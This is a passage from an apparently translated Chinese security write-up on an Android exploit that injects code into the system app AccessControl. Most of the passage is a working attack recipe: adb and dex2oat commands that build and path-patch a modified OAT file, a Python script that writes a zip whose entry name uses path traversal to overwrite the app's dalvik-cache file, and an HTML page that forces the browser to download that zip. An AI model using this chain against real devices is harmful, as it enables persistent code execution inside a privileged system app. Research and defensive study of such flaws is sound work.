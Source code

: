 
通过我们修改过的DEX来重建ART ELF file (OAT)文件，我们需要用dex2oat命令[[9]](https://www.blackhat.com/docs/asia-15/materials/asia-15-Sabanal-Hiding-Behind-ART.pdf)行来进行：

    
    
    > adb pull /system/app/AccessControl/AccessControl.apk .
    1462 KB/s (259095 bytes in 0.173s)
    > sudo chattr +i AccessControl.apk
    > cp AccessControl.apk Modded.apk
    > zip -q Modded.apk classes.dex
    > python -c 'print len("/system/app/AccessControl/AccessControl.apk")'
    43
    > python -c 'print 43-len("/data/local/tmp/Modded.apk")'
    17
    > mv Modded.apk Modded$(python -c 'print "1"*17').apk
    > ls
    AccessControl.apk  AccessControl.odex  AccessControl.odex.0x2004.dex  AccessControl.odex.art  classes.dex  Modded11111111111111111.apk  smali
    > adb push Modded11111111111111111.apk /data/local/tmp
    1144 KB/s (284328 bytes in 0.242s)
    > adb shell dex2oat --dex-file=/data/local/tmp/Modded11111111111111111.apk --oat-file=/data/local/tmp/modified.oat
    > adb pull /data/local/tmp/modified.oat .
    1208 KB/s (172464 bytes in 0.139s)
    > file modified.oat
    modified.oat: ELF 32-bit LSB  shared object, ARM, EABI5 version 1 (GNU/Linux), dynamically linked, stripped
    > sed -i 's/\/data\/local\/tmp\/Modded11111111111111111.apk/\/system\/app\/AccessControl\/AccessControl.apk/g;' modified.oat
    

最后，我们通过创建好的ZIP文件来对这个漏洞进行攻击：

    
    
    > cat injectzip.py
    import sys
    from zipfile import ZipFile 
    
    with ZipFile("cred.zip","w") as z:
      z.writestr(sys.argv[1],open(sys.argv[2],"rb").read())
    > python injectzip.py ../../../../../../data/dalvik-cache/arm/system@app@[[email protected]](/cdn-cgi/l/email-protection)@classes.dex /tmp/art/modified.oat
    > zipinfo cred.zip
    Archive:  cred.zip
    Zip file size: 172750 bytes, number of entries: 1
    ?rw-------  2.0 unx   172464 b- stor 15-Nov-08 18:43 ../../../../../../data/dalvik-cache/arm/system@app@[[email protected]](/cdn-cgi/l/email-protection)@classes.dex
    1 file, 172464 bytes uncompressed, 172464 bytes compressed:  0.0%
    

这里有很多方法来触发漏洞，比如访问一个网页，强制让浏览器下载ZIP文件：

    
    
    #!html
    <html>
    <head><script type="text/javascript">document.location="/cred.zip";</script></head>
    <body></body>
    </html>
    